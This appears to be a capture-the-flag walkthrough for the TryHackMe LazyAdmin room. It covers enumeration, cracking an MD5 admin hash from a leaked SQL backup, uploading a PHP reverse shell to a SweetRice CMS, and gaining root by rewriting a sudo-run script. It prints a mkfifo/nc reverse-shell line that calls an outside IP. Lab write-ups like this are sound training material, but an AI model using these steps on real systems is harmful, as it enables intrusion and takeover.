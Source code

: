 # LazyAdmin-TryHackMe

# LazyAdmin

[LazyAdmin-link](https://tryhackme.com/room/lazyadmin)

TASK -1 USER FLAG

## Enumeration(NMAP)
nmap -sC -sV -oN nmap MACHINE_IP
```
# Nmap 7.80 scan initiated Sun Nov 22 00:03:22 2020 as: nmap -sC -sV -oN nmap MACHINE_IP
Nmap scan report for MACHINE_IP
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov 22 00:03:53 2020 -- 1 IP address (1 host up) scanned in 30.19 seconds

```
```
Open the webpage int broswer http://MACHINE_IP
```
RUN Gobuster/Dirbuster To enumerate and find hidden directories
```bash
gobuster dir -u http://MACHINE_IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
```
/content
```
```
Open the webpage int broswer http://MACHINE_IP/content
```
```AT MACHINE_IP/content
Welcome to SweetRice - Thank your for install SweetRice as your website management system.
This site is building now , please come late.

If you are the webmaster,please go to Dashboard -> General -> Website setting

and uncheck the checkbox "Site close" to open your website.

More help at Tip for Basic CMS SweetRice installed
```

RUN Gobuster on MACHINE_IP/content
```bash
gobuster dir -u http://lazyadmin.com/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 35
```

```
OPEN AT BROSWER MACHINE_IP/content/inc
```
```
we will see a folder named mysql_backup, navigate to mysql_backup and download the file ,open the file using any text editor.
```
```downloaded_sql_file
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\
"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:
\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"
<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p>
```
```creds
We can see that username is manager and password is hashed
```
```bash
hash-identifier 
to find out hash type it is MD5
```
```bash
echo 42f749ade7f9e195bf475f37a44cafcb > hash.txt
```
```bash
john hash.txt --format=RAW-MD5 --wordlist=/usr/share/wordlists/rockyou.txt
```

```creds
We get Password
```
```
We find login page at MACHINE_IP/content/as in browser, Login with the username and password.
```
GOTO to media center ADS and upload the reverse shell if you dont have you can download it from the link below
[php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
Change the ip the reverse shell php script to your tun0, run ifconfig to find your tun0 address
Set port of preferable choice 1234 or 443. save it and upload the file and give it a name click submit and file is uploaded at http://MACHINE_IP/content/inc/ads/yourfilename.php

open terminal and execute this
```bash
nc -lnvp portnumber_you_gave_in_script
``` 
now click on the uploaded file and spawn a shell

```bash
python -c "import pty; pty.spawn('/bin/bash')"
```
This command is used to spawn a tty terminal, move to /home/itguy

```bash
cat user.txt 
We get the first flag. TASK-1 Completed..!!
```

TASK-2 ROOT FLAG

## Privilege Escalation


```bash
cat backup.pl
Its a perl script.
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
this script executes another script /etc/copy.sh

```bash 
cat /etc/copy.sh
```
```contents_of_copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
we cant run this..
```
```bash
sudo -l
we can run this : /usr/bin/perl /home/itguy/backup.pl
that is copy.sh needs to be modified for reverse shell
```
```bash
echo "/bin/bash" > /etc/copy.sh
```

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```
```bash
whoami
```
we are root user, navigate to root and you can find root.txt, cat it to get root flag
TASK-2 Completed..!!
